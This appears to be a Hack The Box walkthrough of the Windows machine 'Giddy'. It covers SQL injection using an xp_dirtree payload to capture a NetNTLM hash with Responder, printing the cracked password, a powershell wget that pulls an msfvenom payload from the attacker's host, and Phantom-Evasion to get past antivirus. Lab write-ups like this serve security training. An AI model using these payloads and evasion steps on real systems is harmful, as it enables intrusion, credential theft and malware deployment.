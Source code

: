 ```yaml
---
layout: post
title:  "HTB Giddy Windows"
tags: HTB, phanton-evasion, Ubiquity
---
```

# Recon
1. Nmap scan
```ruby
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
443/tcp  open  ssl/http      Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
3389/tcp open  ms-wbt-server Microsoft Terminal Services
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
2. Gobuster
![](https://lh3.googleusercontent.com/BI-edrIfyhlFDnmPTGTKrtJ2vQGwXOGjKafUJ2kO5f34UGqlWhoj-9ScJiwiVSFPNaMtaYaMOLWwOREWJs0y8WgWvT_oHBXBDPvu8TqC663NrCrqIwZYZh_xQnNMihwmLxK2_8mcZVDBJTK7DZaYfmMpQWo90psQloOHzhG4LnHaReGebpJM-vak9rqoVHh1U7l0dXrBRtNIEIcLqKY5eBwyVCWGDupR8BY8dEGJbCz0kd1EDdtKj9yVaOYlHfqzgfLOOP3mfGkeiGiMOzl4zoOTxUsPbJqRqXT1x1dFlnoEwVbSPAu8J7CNLYincbEtqWNWrWbHuz85ebqLPPKWVANTRjX04cn4vb5nGE0E-7Amc-S3IByvo7_tNQdrw7K1E5ZYyCEPi2RaCLcIgQeZbe_DPycx_kzhYSGEhrN2tXTjKLdmNMd6DvZT13Sbe1Y5bWX0Ym4kDbIJUJjmU0XQiFEtIm4E48_ZaZWXtjDjbKEKeQ1QqCITD_3W8EDqk1mDV9Eewaj65Uf2pcux2UJ5kkuVhsYVEBiN9jFO0oI7RfyljguHAHQIiAPfRrWBkO86sGRQZaD1uazfZYVbhGpVZRiIJ2SiKKf49nSES6BWrbkLdPpKJz9-Pgd8l_iVvoMc8rH1zBW1HTEc0nz8DcONs2adeQ8qK1et-rBiRwmy_u3muRpEg8DUYzA=w536-h242-no)

3. Under the remote directory we locate a windows 2016 server access page
![](https://lh3.googleusercontent.com/J6Oz4XAOScSw39O-a6-KMkLwsBofcOeort1WD9Ik1lli9LyX55oQId4XiZj6dQ2x7_ICnke_NpQgWvYCZApPMK4Nh4i5Egos7Y_KAEWjPU8DwiQyR-C7YCpqHknkMNeIp0GNhPJru-Q7x0bDVNaWxX88UKC1LLb3CHujrgkP9fwbnbezU-ZcjbRJGaeKwGUU-C3PfPr6mhiyb7_uLEgiRGMZ-MEgwnsOM9lkvjRT6_9KM69HfCsK6_JE4e3yQ5P7TDrNx2Okh6ZBAcFaeN0Zbxnfg0VUZZEaHTutY1rkG9bBM0wsDp15VsYj9aL8xJCMcww7FML2zzUlKMac6SkMQUXW1DADbniuZRqAzcI_eKUtKKHHyD5wai5iYITnEiUvxxdywY447ApAkoikzvwqMYKx1LvMu2zinFkkUOTNeALFIb5k30Ih6P-a2WSZuja0snQ7daCjkZiGjAg1BHRgEL8Pa1T5Wz1OTjlME8zJjSTXPGvStvcSW0hq9HjflqMFrZRFXGuFxaSt9IbsoyAgfWaEo0KuWEPwA5D4GJjjiCYh2NcEb8Z81ENgg1T_OTjm0iW7HzUDIvM1nH7pmSz2VonwJVXfZrxrO15HBlv4eq1uaySghgWL2U5hKox-AqEJ-s0vbubO5qREwqAaG5y_o9OkoiyDUKoRkSLwzWPgYmY02U5a1V-HKzY=w541-h491-no)

4. On the mvc directory we locate a web app running

![](https://lh3.googleusercontent.com/OP0WSgijUfKtz7ctVxeVmwpPFXMdRL873voJBnvMfcWmhL643M1Rnr4kabgOOe-oZuniZBdQmlJTIibsZTQYz7z-jBrIrLvT52gBZKt2r1_ls1S1BfQrrimq-4g9Cv4p_27evdQq8EJzE-xM-AeXPkMbun72EBpUirDiQd3A0q_03_HAW-PQve9wYCHhdiCEyjI7KAwLcp3faC8jcLVsWwJqHujrgNdBZr2YV5-U7jQclyDf4oqBMSKeXYJUAC07itY_02QSSueyImCleITGS8lvArh0XmLX3VvJv_6Mn4t-GjHgGun1JJN8oBnyErNdm3H72tQEMCTCbXj5bdV-_HR_nkQgpbh3q6yZGGrxQekYovBEubHvu18hSKnNPrA3yx_FDzP2CuCNGquTcZ24rFq_-JfCsQL2j0RVK1Xwu9EILvR94bDPX68WysVUyLCDqc3TDFAhDdz2CgeRrZpq0L98j-ji5vWigb0pPd6W2mIVo8XmzE1AR6kMBA4USBFQ1r-G3U0ZQyQGgj1jq-22QAkcrs3IPJCn9U_7ztRwTP7FNn1sBpbRwh6Oz-Qvb6nqeQ-GuQ4sCvMD-X9b6ak0i8LLaW1m3qZKtGwDdA_TW2536o29a8aZXjOoNOJkoVtCxhn2MkTUZOkY6cJujOYKMi4YtbMIvtSGR-WcXAnA5cdpF1CnbkVszb8=w299-h539-no)

# Exploitation Method 1 SQL Injection and BURPSUITE
1. After a little of trial and error we find out that the web app is vuln to SQLinjection:
> caps--

2. We start Burpsuite and we made the following search request to the server "cap--"
![](https://lh3.googleusercontent.com/FKdkzadYk-1azIEIbC2GZSkd5fxsNOqhCyeEkTkxB_4Yx941c-OZCwai5HPN18yS0VnnRgcA60eOt0skhJUp78KVDgQpB8XlL3KAGvW5jEK7nuy2jgvGJqDMzqRQQCLiUOQTzQtiImFWzVOW3XeiaK6D5nivyPfD8RqE35DYt5KaaY-cMix-WGtGUXu-lO7Ox9nMfH8mITBwsSrtftWX9fnjWt8Nv_EBoqH1ZVIk8pkvKJn6-CvPBB_8winhtT5J1b-6OCVvmPmsayglUqGbTyI2hLCLl2_BAz83NvF66gXTflmLiH-54jQgaIwtcSh392ju9Ki08_ya_irKErB7A1XB9_GJMMEOyAb0N5SZi_WD3NnqRzU85igPoXQTKHciuu83Mbxlhh2ptSFDFFuuaAiTbYtN2H92k6sPi3zRedHk4r4EU4Cga1yqekZJvqjnZiv2Yn0nl7eBc2Jf3n6wUCyE79bl0euXwVb5xYA0fb2c5UqX7aFrwvtbQJ5YUoxrKhTmD_gVNowlaKEs-6u1CG0pN2hhUwgnXwBKbEidbpW4fwgmrRifVxE71OA5J7sS5OPSZm6sKLcIb15jFgM8wfLvrPXvYzl4nCDZSo8fbK5jKmDCvOZ_0oQESLLVP5dUC7imqA_EYS4CLoYlZjuDdifwFGQl_HxLz3xdYRfYMVEXWGAJhk4AkMM=w619-h263-no)

We capture the request with Burpsuite and modified to
```ruby
' EXEC master.sys.xp_dirtree'\\10.10.14.34\share--
```
![](https://lh3.googleusercontent.com/JgzHhVf8_J_jIoVDEp9k3eDrOwFggF0FL4sdq2mwJZs4G-02v_qbmFfzf_wteAwV7TEo3lV8qciz992XRqJmHbnA_HWRLWSJMfP6GtXBDe_u6dmlQPrPS7cks-PLGkQOX9sarzCObJe-ZTxpQR_2NKmTnpHlTyL0e5Rdvue4ZBR2p3DAppMIuhFMVAxL2ZitGk7R7979KzBKd37hFRVmuV7bP2ImnMs5_UIz2RZk7aSC1-X42rG_fqyXhppHTSCLl9zyJPi1LMSWCAoc5SXn8eOMz6jL2aj4hcUjh2Il5c0fMj1_0GRVJJKy0AQH6huvbjx1qeJkkx8mUmpbCRTJVanPHw5A7Cr3TGdbBtIf68LX45bqsQI6pDOhrEdSeyOH02lwgiJXyINH99Br7lGSYCUhhawlfJqchaTSXwjPazzz2u34uZVcbvP5qwELgHHweezZu_sa2BAle4YDcfjDdsw_Y1LdcheJi9xvuIjNYY3-H6AUkmxIUkvV94gIPxS5zNiOt2NgWkPctBCMYnXSdlRAtKDXRWiMRQYxcb0Hms7YfhhaATnJWa7EymHlWZYS0kWWZee2vj1dPNB6u-i_w5d02BEuXEilI6wrXF8ty5N84xPiMryWwEJ26UZEIrIw0M7bSQJzOhtjCK5CjIklYCGMS34VfifD1-5koUJM7AY9ldrkYi7UN2A=w502-h45-no)

![](https://lh3.googleusercontent.com/RfSI-hXdwgfsyrLFfiwxWRgtReY_4q5HLxjWxmAy0jN5AYfPjQ4CF-uOndfXwYdjdgN8v16n6d3VbOYRbrgmeCpC5Lm-IiD7oryKIJ9YtOh5uShrOc0Z1cI42y1-yx0H5pHD3cKC8ZtsKU7tmyFaAAwLzx_je79_SimX8kgVWMmckZi1_voGMCKCDF3lLwLGqhdMkzwsj1OttU1yZzVU1CZcer6hArp9AM39m4Yh4HHtvxElTliSTW9G6RixZg5_q9wj1IrUvDZeOlpEkLoKFgyVWPnFlv2-NUNV4FH2Gb9wxzP2KfybS5n5092joMvGOIQSwgvPDBFgW7bZyDlp3QqtRkWqKeLvbZQEZ7tnVMChVvbTAD1wySMxL4W4mrp7rx_7sKIxKngL3-QSic00DjcbKzbcKh03SQSpJlS30ptUCB9jQSjiG6jHme0tHrnRw1jTGU9dz7qzu2fRFI7gzbgqMgg3GCeoXfjYwBBoDVqhWfTF4rEBKPt_dBr3ivuBUNp_6bZzOr8-MhQkIwOgvYbcAeq0x_ehYyGLed5sHIamV-w2n0XSUV1YZCueZ_NQz08HFOz3mUy-yL-waq7HYb5dKIYuNg9vjdzvKpdJa340GJMse-PLc2ke9Gm3oufKIyNuliTJkhl3x4CmP9uar9nCNUWtnGXt3Sg3kEb6Ln26KbEfq8irFGE=w748-h42-no)

Then we forward the request

4. We run Responder with the -I tun0 option to set up a smbserver to capture NetNTLM hash
![](https://lh3.googleusercontent.com/7q4nGUHEgxE14oi9mRAeGS0V1pjZEhHBk75K_JQo_PmsQItz9yiy4QJXmlWkO9eAE_YuLs5UbQIvQoOWuvB3og7S2b0jRYTbJJi-_EQXAQsp4ILfUFWdiHKJ4slpJ6c_fIA57BSHtWDrLkJ3JKfGla3-bduZ-ay-Aruy6Kxw1ONNHu-wigYF2wxFClBBm8JkLtW9heCYtGEx3IljmHwF7lyvQ2vtZfkzH0wOPKNQWGSScagJNz6ohuuceWRPRp3PKJUqBXATDdVbh0m_MZkNva8ExDVaepuLNUR3XirD5lzVLzasU4riv3fzPzP16NziP-1wMkfJmE-rEzNObmo-wtkiSiTv6L1HII1-kV8O-GrDNYE6ZcFuo2efTr1HbRrUZm38NxaBloymbXJLcwbRxVwAuRnzIq2L6XSY-MJdCRTwVVFBxsa4HZBA7TpD1sQ0r45jqLDC-xywXXvaiKSa7qWdBZb9U3Kqg5xHya6aJ7s0A7bpjRJsUgy8R-l4261GrUBx-RrO2C6w2bxzLr3GG4ecbsYm3MUr58jKS0ddYks-Fl1nFAm7zRyummASwprCUX7A1WK9QRLkFm1KPC-i0qyQ9mAp1BRiXE2FCdOxZlJNBDBW4NQeMxON9Ow3DfEkrxbRJfAxXGfIv_GvR19iUaiw8fkIPmEjNkp9_vCYCLlMIKgCN7V4_C0=w539-h457-no)

![](https://lh3.googleusercontent.com/ph6I7xdJhHJr6bcILHcBgbbMQ9ZaMrlLPNlN8e12uEiVJo5MTQy9YUS6NvbFsyiv5VaYmMj8JIDB9SBaMCcj0Cdc-BWzfpeoUYJM8_gqwGKLa9BakOILWb-A9kDYerni0t4BV6FHH_G-uQ1PuasAozxTjsFXezv2a2HHYUO2ddSXJ1UBnZDxWw7jlG0_PiPFJJjq6QddqpiJqzk-QHDCgfA5l2tiArxATAW41U-pAO-BOqdppe9AR0z6fM43r-FojICbQUSHYl7QlJ6q6OoqwzI-HPKYZyrvs-_jYiNx8bCr-9nok5dwKkraCs3gXgTay8RexTh5y28EIugsLwIdISJbG3f8RuOw-Rt9ypRHiwS1CWLF8Jt-iX5dhtRjquyy_7d3Z8qb7yQI4KXfNSAPIwp6Taf-2MWsQOn7n2AXVZZwh-STuIOPWsbsM2YJVMj-TT1WokFVkF32UxRvM9Xq3NkFERX5cqyLpU1SLjE99PzCCGeGvJkyZNABemguLZs-HzzYdrRZXNsUdBS9EUPp-wNiQJswbtNDEJgv06qiih1dDowMNmCH_jyW4bl_aInZ2KD0dR8Ali35hkv2dn_LfMcJhqMyf9QuYiFGoGEoNmXmldjsLCwpnWPG8Y-zMb8ktDQmZZUPLscXFnKCXDmDOBalex1EiZiZaV2T_55svD5aMH_bnpMzruY=w731-h316-no)


5. Finally we use John to crack the hash
```ruby
Stacy : xNnWo6272k7x 
```
![](https://lh3.googleusercontent.com/Ld3rfusYNEDBKzkLNI7KzREgoy5dKvJTVa_xIDdkreu97y0MPtE5U5eOhsWU_FzSoMSZiZrln5FeZTJDzm654_SMcJ2jjVL-0NXBd_HBvGDd7y_9qRHYe9ORM_j-5uGhWFGFmZ48vPk0cR90n6Fudfq-76u4OlmqNXpNuLIcxiOdIDRiKps8c0XtBLe3JPshXp7VGXCRp2QxJp1OdROSu30FUnKvovDy8FCAq-irxKricAqo4awKiFA4qcQAsPzMFPllg0D65IHQ4VyCsZaUubG1lkn-hJ5RGqubq3aEEM4oFMGkSSCU0AmZ-YcsMgMq5t7e668uSWrKB77zF3LXiyS9jCojkSNLLXiaL-lVGQU6DMfv09_HKS6oWqKs8fkaQV-jQTO4x7t8W9HioLklHc8fl8kbhAdCvQ4lUtaYEZPbGEYpjskPeyihYado5t5qGaRhP5wLnaGyEf1yu_ymdRICau8tGtMzmk0_1c71BwbAI-Oqi3tpSKF4E8kvDH3r47LeY0g09FI7zNcyNMI_5d3OjT6USIVNhf8JqILbZpu1vx01fLCKkiimyoj8Q7kGOYV3L8QLo4O0H-QdkRB76l-AzjvhaIZXf5guYi-aIWtPSi6qRZKYvVB6D1ZkvHYB0XJq6iscg4wf9bXYsjZmkfXDrOCK8hMkb3uOVWlE1WwUx4Dfy-LSLjY=w966-h213-no)

6. We use the obtained creds to login into the remote directory
![](https://lh3.googleusercontent.com/yDD038JTEJ9y1yOpW05oY8BZJzHvb1XP_Iu9_ymnk7CRgCnl2zBxFd2yZaJcg-x0Xh6XJ-OsyMOZaZbhfb11K7WCEvYeEKyJkmpkcyzzvSQbF2zelxiQ15FtSqS6Wf_SC5IX7e8rFXnalsOn6WBuD5cx2OOEQjrn5P08UrtPZmdbL4oA2u3ep8RfkOY3Qg5EGo8Tp4OmPCn1VHiqNUaGbRFo0PH2i5frgng_s6S46w1jJ-PYZMaCkHYgDCoRsVTnqvBdPukg4P8lLmicNOWzboFAjkRc_LKlOMtHpUAffNgQDrCOlg2Rf8NdwfmrDT_rcavv8xQZR3m89GCOy90RqOgTeZaA34WB6yy4FkB9ixQETRabyVMhwPgefzOHR27KKCM-QWfqK6j-r0fUYcnvin68w4ekUJnlOvEes3DwTiN3s3-IjDqWjRbEBIBEEibr2tSKTqw-KnYROR_FOmaKzmx4h8BZJiMPx_YafbKR1GokRA8QWCQLAaZDjWuW77zw1bJuL5HqWb62w59WyQjbfbdvRDz5rIJ_bIGUoo1ZUey2-s7wZuSbveggg_o9-2c-xpuD8s4Eu1ZUidzVERWaJgr0IbIUeP4pczltoE0QN5-GPHfPpR9xnwxW2TrhSr7KidL43gj-9vWtIa0DiVL8D5cQ8wMkQAKx4SJYOyFmvOFnTEZ8Mt5uJeQ=w535-h449-no)

![](https://lh3.googleusercontent.com/Q5fYcnepRnM6I4jp6TNaTwG7VjBhqhuKS84h1HMQ3DoiTO-SGhT5ZlcBR3un5pdD20OT4vhvybNQWFbotC14jpLh8wFkSRpYIBbmO7ukHqx7w6zrIkGJqqT1_hTFP4gHwijc3alBUTM0kEa1nOIhO0m5Tb5nXr5KtWduqmKhT19HFIFASBXpagpmzquBaj6DIa_QW-AqxXarzLRW4D5iBXzGZMA9YQgHU3mLgFmhRbyo_NrVfUGxSDIWsmdJmBjP_uL6_exCuksc0Xl4ijh0mNNPnsVW6LtuW0N5Lo5vkUIy_1bvHbHsc_mwg6aHxhtYacGjLGFjVqz-CZ_5hxQ7SkqG4NpwKZRzuuwZMwAnlwcOdFk_lzCgS3KpFX61N4BzavGjLhh3KWLVzpFir8VMkUyuodAj7fW_Y4S-pCV7idZOGzIRG2wUeUtAq5H435M9zEG7T8cLvSHLwLboN409GTzNWzU99oP_1xpvxVtHY2U2mjjTKZiYfeEAYROWiMlLPCXzMG7ewWLgum8Ze18fxXZv0Xd4YHl4_3Z8vcvAFUAEho7HZ2nrnuEgEFq2s9BBDFNam-4tZB7hHn6vUYlJSYAEUgO_Xx97ALKBLOx35cm4ONqxo2l5ykoLXManzSOtz7nK-Kol-pQkRr4EyXYCRnfHoZbUQ1LXRkpId-HDA_R4jNksDJ7siwc=w741-h513-no)



# Privilege Escalation Ubiquiti and Phantom evasion
1. An find a program called Ubiquiti Unifi Video installed. this program is vulnerable to local priv-esc CVE-2016-6914
![](https://lh3.googleusercontent.com/jPghooY3yguXMcrVvmA8LEc7I-ZScfzCNAl6X1F5dWkI0_c-G6Djplxhw_Y4EOskSCNg8W8APtKfhojobEGsWIcQOxZgFo_xqYgMkt1cF0PnxGJg2RmAbWSDz8JTBkmGupYccgS2U-zpk8hvcGJOCN5cT2z6vhehRjCyfzclK7sQh0QAqLa5uYokB5-oD5_x3nHws5Ld8spcRwS0Vaeq5WrZTpcZrJaPsZ7BI6FPm2RNwAeCSAq8r0qvpo_IjExIy5xuIZWingxMFCs-B82uK3IT8Gj2OEVPIwem_WdhZaV_vwXV05Bh9LLXQ6C8ljQovFYNUqVaMlZd9sg0yLG8HuVdESZlzyHqe0JPkVjnd4U9KH83660eCdOjhn37pA_3AXJ2sshZiofutjlPMFHDr5U4xwVzZgzw-RTBg2CmQOHPbZPS4H5Hd3KiUKatnChfuynJyTvkE5IaAY95b13NLAElYjKX12j7lqzPwaj6wevfHiCBAObfgI8DeRc7jcZEZZAZOYWW5xvpCoxJlkRpwfvszLKDEQHKCn-vQPRffZPIcvHMeeNcf4WesJYJx_T5OEjoRsuHENigT-99kXGVxhN5U9sLk6XDB4nuFL3_0zrRYbpWXB6n6H1Bnp-tcCsRKCy2h9RTFLonuzY1nrgKAAxVIFifGNWQ7geocadX_CDjKmiZdLz6_uk=w742-h365-no)

2. We create a msfvenom shell and uploaded to the target machine.
```ruby
powershell wget "http://10.10.14.14/taskkill.exe" -outfile "taskkill.exe" 
```
![](https://lh3.googleusercontent.com/e4hKPGYAR4GPRWmWFeNhrJKSE3gmIQJ9T2adSWA3mJ61QoyNQLaiMy8tRG2sp7zpAgM36qyTPqBTdrYDXSlLbDPKUKa6eEY4Etbx1Ym8hYz7epeEL8kO6oTmGl3w0IHkZV3oVE21o8Z4oDDBTb2ef65swOkbhHt2yJir9KrXNUXa9Y1r3AbfkpFMsccbPDzAh5v8by_6Wrh9oTmkrDUuov6vGbuKWa4nQhq7nG-stdb2a5BoMPLjyZIgbXnbQlz1VsBPvu4Y_c36vLwVL4saWDautFm2FGD4M1Qsz45NwvX6BL3Q5TqZKqXuMn656JviWXEvGimiTvYER6YGMxHG74-HWu5KwbsFLQBR-b4rHesXC1_w7mudRv9ILBzlfIQ5y4W4fYIyDxwdxaArB8atBcHCnV7aGV1YaB1PssEHv1KLWYJgZbcOLDivlrsXb_Hpsaw5KRzorZY2euBEGfadgCUaJQi6OvlhJS6CNiI3fGIMmcKZNbw5mG4puPpiB2xrcKg5bKX7JPXSIeatBQYSSfyRhk5Krw8EXUIA9NaOjQPDSmhwrhk43jTpFCeINllvDJkgQKGKFV1ThUBPZeYlt5DyVrtCWofgZamnughSmklLZibDI4QagAuu_8cQLUXANqOrj2K5ji1Xo9tIDohXB8-TMJ3AKLsJ5KQfQdm6H-5eelVSr3DOwpQ=w447-h387-no)

3. However antivirus detects our malicius shell and blocks its execution.
4. So to overcome this. We download and install Phantom-evasion
```ruby
https://github.com/oddcod3/Phantom-Evasion
```
![](https://lh3.googleusercontent.com/1ZxmrJhGt1Rj7O6leHhEHYFKUCNIZvuILqErnSWLGdHm9Q0fl89ax3oD-Ec2TiTg8ZiHeq5TXX1rtNkTxoTRoXb-Bld7gCfC58z6iD9ceiAV0-hPOxwngcVD-Bp8zGNnyfd75boGmsQgtaZyRAu5_50rzMktFA49mBj6slFf1Qjj0VUCiFSvDnBEruau5vVTM-K-lqTMxe1Fv7ff56f0WS9512qmmDN5Fn6piI9KwSU8wH4KrasEygBITP-w12j7jDv6MSV2a76Onad4oNJ5wCqkILv1cf846BDa2AL5ufYe-gZiAt55y_qNXxot0mLGfHKWpWljYaEh4hsKS0WAflUryHGYtV1oHvX232DyUVXDUJLXegNThfrGa04puTB9YAq6-_wt7i9fy-wxQRQL4YiR2mrb0dy8cXjwlVeu_0gb90qUnP4wYJhvbU7joJQlHck_2tcf7p815OeV-t1C8-Ca3VYLZSxkixtTRGbTAlPFISSiU-6IYAmSpL2AAUrXIZIhYZBKCZkKqDUaUzCKLrj-u5O3AVNSwU3riS-NXb7M03Gk5LGWQJ7FxkBMv5K4cM1xdkuxCUAE7TpxsB_4Xi_pDaUlS4jbglhEdIMfve-oi45vtmu2Pqd8QzBK5zUflCE6x8c9hRRD6wSalN5fCSpxxo8_TZo49og71wmJjxKjG4u_Mg6b5yo=w758-h456-no)

![](https://lh3.googleusercontent.com/JvQgPIuekgZ7_aCp8e5qNuaepoCSBvAS75mvKRr6FaMPPqA1JYahoOHUbya654H8_8e0biT7Cr3Ochk_IGcJUJnYMdP6zJNHpnpbE89ZxZ_WtxOFu0rhICNAswwWpEMR--TYMDxzaAg2GK9881VE-zxmEuevEsfuv8FzukUI3azBAtgVtcgUbRCF_ktx3sOj7xEe5vhLS7YxPkEW5pQq0VHZ-yEPFe53Fadtg1gFylg7P_EGBcoEO3dInTOW5fXYA7ev7NSz4yUxT3lqZNk7YM2MWhMiq4FMNtjMcGBWziORjE5-mHYRJpGHngQ9eefrIWr0lKyKAOmU5_iGNIM56cMyWAUJKPieYU8uvCjllmUK5MWjeqCcRE347S23KHY4LZDPw6GhQqX_ykz0K826z_bnr_fh_SDWaEOeWTHk2ggV3kokMtUNaolw_4HAyAB5v6cgvAwo2f5ivjmAS2BXSRRfC-fB7C8Q5RneBnpSxD6Kh57pjP8uVS8pfjJDteBvEYRFG_0jW3eKNwAEh4h7jHqWnz_dRRNw8hO5JvtDpC7y34wrAjdFsJHMz-tn356p9GqsWJncI1k-wP5AW_Sopn2N__sYSmEOn4S98Y6omX_iFVbk2WpZc62qvn3dJvJOLEawX05w1E8Zgkvg1GSegN74Q9kb56iMYwsr8y1CAPiJ-045Ymey1YA=w545-h262-no)

![](https://lh3.googleusercontent.com/poOtQCySlDuqcMCqHgnTnP5t-8w50fAk_hnypFKsReRwGCuw1nSJswVz9DbAWbRI0ffJ_GrMbmA8N-S6KOwmRobesY7007gd1HsgHnIZxHi9lkhOpOeFHct1GOB-xKXGlxPj4ni47UDMsba_DnS8eWQiXKf96mLzxFre_lys2WxLOu0oHMX6THXXm6q-7N-vs3Pjc_xFQKatevarF-D1MehIXlY4yxJUxaTCr-JfzNSLk5QxdHcz4CjD2946QQXIETTdsgfLAWwNNalpD5o4vSkoMRpgV0cbE35P1AuOZwCg4CE3pmhESzJj_UM0jHOv7l-rW9TWukTWmx99e4xlD7p1YlZe-vM9K7nIFKAuOZwC0cRQiQiI-YwPErUq-7oBIQdIuhQVwivlVGd4p9MbOqkjxydfr_PW7JgKhmPrANta4uQ2-k8CZz7SolLe2B6wJXXF7z_JkLJJl-PryDpDGwYOLB7bpaGI2f3F65h7qNmSxSY-5rfuEhFkcC0-6BwvZPR_my6vaGrJc9FW5wKLPcuDoB7YFEwtSxwaxiceXrMSS5AOSGYke_19RRyMWpL50HRwyXHTUcO4xNKfk2Bg8fh-agB0iAEXuZkI2Y1FWZh-ZpvTTrOh_ybqj_8BiPi0-tKWujxSTYi062T9VxV_uycykAVESPfYvQ83NovBZP4tTjxAt804T3k=w748-h299-no)
![](https://lh3.googleusercontent.com/YPgKlq21fNw2vIMg33yvP9XA26cvybgzgQYOR_tnaArTcEP_TMptEb2J8gxulQyyKctYTmURd1trE0ZOQ08AiyqNXWqw0hXtmDvooDv52MNDozE-a7z1QueTGVffOGps18nEtnFj7dEG2XS_dEc5-sGwv1ri4qQq4jp9Jd5PdsGv49XuuPwPh7SK-M9W-tOfpp28S4Sdzzlazu9996IZ31sdvIJueHosprbambqqS3LDv7hVcapWT5CkCbWIpKTbKvdm2mt8w1BrX1gT7PvfrEIUiaLbfHmXM5or3WGYo1Jqz0hu8YvSUtGJW1qP0AqTLcLf9AV0EH5yq5R0BvjTgpyXTvpgcIjKyUt6e6SGv-YsTNMZ4BzaXQTq5w89vvJbW4EW7Pld5r52Re5MFnjqA_8Pr9G5lojeiPUEuDWm4L9QXc6iL3_BAyz7XQpSg-5qS7dbtw_tuZu2XyVluvpcaDabGf1V_YV_rR7XvONtFwgK9ae-RoOl6FYn81Jfzf4yuVoM00HIOzOPSr3AzRYmO8yzDEBcuOsM9B1-pQaTzgFqTox0QDMfULga0hjjUEkcrjpiezQnTekVNUh8tVZ1Lh1m_DQM8NvNDJ2mYcCRgnhNCMinmgNmGi58RkIQhLhyc1I20DbJkB7SLzlXNAiCaSHwIUgzY1GE_yvNAkVPa9f_4jHU-bHWzo4=w824-h452-no)

![](https://lh3.googleusercontent.com/nWKEsswWjm6zdZAcAdRTsu83ToTSgU6pZZpwrRYPs9MgFDqFnBoUYWZbNj-lxsi1vEw0FVoZMRUHqgrRShMNGhT8iOrOEXOOmhne-tLmzQv4L3q_XdtWyDiO3w1FqphtXtcuRoNhUWOSvYyTh6F1ht6m8kteBpjKz9k_pZI8_Xw1XjQqd7LvXOCLYCHpByWhTvuLXOxm-HegFM6NLOZmbdV61Jz-DaAdmCiSp72lbQr1YOY-y0OX9hk9nwn3tevnBKFDDoT6u-Y9Q-ItJl_IIQy8euAoOqXLB62ajo6rEBDuvzv_nAhjorzupaPz4-XVjr1pFmG2ahxzcZO1Y6FLTIZ-r412SXk3dWkmvmBQzcLrq_HZlnl9hg6zLTZcyyEKBVp-LUPz5mrJ3pQECRL_YbmaIi8MmNJ0GRJW_NlchlhBFW28-SKX1P6zaeC1q8RGeMJyGnXK58dfgA55ziJN8TAmfw5uz4iMYGE6YXJNYpkvYGKBb0QwjhVxprVn-omFmZUTWjWnWvlZkG25pF7q82Pfr2-tw0pv56f_9CNlzsbdaAGRGzml3O1Xdz9MF2G6rY8BhiDnDmSmGPakl8kcK0mhFKEIZFkmxY3oFQyWzSvHs2g8A6P0dMeN0lpa9iDG93TDP-MSd-AO53i8vaTertnXERoGLXNE0d_rbcIiPGdqfvFk3AyR_jA=w674-h517-no)


5. We create and upload to our target machine a x64 bit msfvenom payload "taskkill.exe"
```ruby
powershell wget "http://10.10.14.14/taskkill.exe" -outfile "taskkill.exe" 
```
![](https://lh3.googleusercontent.com/e4hKPGYAR4GPRWmWFeNhrJKSE3gmIQJ9T2adSWA3mJ61QoyNQLaiMy8tRG2sp7zpAgM36qyTPqBTdrYDXSlLbDPKUKa6eEY4Etbx1Ym8hYz7epeEL8kO6oTmGl3w0IHkZV3oVE21o8Z4oDDBTb2ef65swOkbhHt2yJir9KrXNUXa9Y1r3AbfkpFMsccbPDzAh5v8by_6Wrh9oTmkrDUuov6vGbuKWa4nQhq7nG-stdb2a5BoMPLjyZIgbXnbQlz1VsBPvu4Y_c36vLwVL4saWDautFm2FGD4M1Qsz45NwvX6BL3Q5TqZKqXuMn656JviWXEvGimiTvYER6YGMxHG74-HWu5KwbsFLQBR-b4rHesXC1_w7mudRv9ILBzlfIQ5y4W4fYIyDxwdxaArB8atBcHCnV7aGV1YaB1PssEHv1KLWYJgZbcOLDivlrsXb_Hpsaw5KRzorZY2euBEGfadgCUaJQi6OvlhJS6CNiI3fGIMmcKZNbw5mG4puPpiB2xrcKg5bKX7JPXSIeatBQYSSfyRhk5Krw8EXUIA9NaOjQPDSmhwrhk43jTpFCeINllvDJkgQKGKFV1ThUBPZeYlt5DyVrtCWofgZamnughSmklLZibDI4QagAuu_8cQLUXANqOrj2K5ji1Xo9tIDohXB8-TMJ3AKLsJ5KQfQdm6H-5eelVSr3DOwpQ=w447-h387-no)

6. We proceed to set up multi/handler to catch out shell
